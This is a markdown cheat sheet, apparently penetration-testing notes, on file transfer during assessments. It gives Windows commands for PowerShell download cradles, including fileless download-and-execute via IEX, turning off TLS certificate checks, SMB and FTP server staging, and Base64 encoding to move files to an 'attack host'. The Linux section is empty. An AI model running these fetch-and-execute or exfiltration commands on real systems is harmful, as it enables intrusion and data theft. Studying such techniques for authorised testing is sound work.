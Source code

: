 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
  <summary><strong>🪟 Windows</strong></summary>
  <details>  
    <summary><strong>📥 Downloads</strong></summary>
      <details>
        <summary><strong>PowerShell DownloadFile Method</strong></summary>
          Sync  
          ```powershell
          (New-Object Net.WebClient).DownloadFile('<FILE URL>','<OUTPUT FILE>')
          ```
            Async  
            ```powershell
            (New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','<OUTPUT FILE>')
            ```
        </details>

  <details>
    <summary><strong>PowerShell DownloadString - Fileless Method</strong></summary>

  Default  
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
  ```

  Pipeline input  
  ```powershell
  (New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
  ```
  </details>

  <details>
    <summary><strong>PowerShell Invoke-WebRequest</strong></summary>

  Default  
  ```powershell
  Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE>
  ```

  ByPass Internet Explorer Error  
  ```powershell
  Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
  ```

  ByPass SSL/TLS Error  
  ```powershell
  [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
  # Command to download the file
  ```

  </details>

  <details>
    <summary><strong>SMB Downloads</strong></summary>

  **Default**
  
  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare
  ```
  Download using CMD in Windows
  ```cmd
  copy \\<IP>\share\<FILE>
  ```
  
  **Using credentialts**

  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
  ```
  Mount the SMB Server in Linux
  ```cmd
  net use n: \\<IP>\share /user:<USER> <PASSWORD>
  copy n:\<FILE>
  ```

  </details>

<details>
    <summary><strong>FTP Downloads</strong></summary>  
    
  **Upload file**  
  
  Setting up a Python3 FTP Server in Linux
  ```bash
  sudo pip3 install pyftpdlib
  sudo python3 -m pyftpdlib --port 21
  ```

  **Option 1: Download file using Powershell**
  ```powershell
  (New-Object Net.WebClient).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<OUTPUT FILE>')
  ```

  **Option 2: Download file using CMD**  
  
  Create a Command File for the FTP Client and Download the Target File
  ```cmd
  echo open <IP> > ftpcommand.txt
  echo USER anonymous >> ftpcommand.txt
  echo binary >> ftpcommand.txt
  echo GET <FILE> >> ftpcommand.txt
  echo bye >> ftpcommand.txt
  ftp -v -n -s:ftpcommand.txt
  ```
  Once in FTP...
  ```cmd
  open <IP>
  USER anonymous
  GET <FILE>
  bye
  ```
  Back in CMD...
  ```cmd
  more <FILE>
  ```
---
  
  </details>
  </details>
  <details>  
    <summary><strong>📥 Uploads</strong></summary>  
    
  <details>  
  <summary><strong>PowerShell Base64 Encode & Decode</strong></summary>  
    
  1. Encode File Using PowerShell 
  ```powershell
  [Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))
  Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

  2. Decode Base64 String in Linux
  ```bash
  echo <BASE64 STRING> | base64 -d > <FILE>
  md5sum <FILE>
  ```
  </details>
  </details>
</details>

---

<details>
  <summary><strong>🐧 Linux</strong></summary>
</details>

---
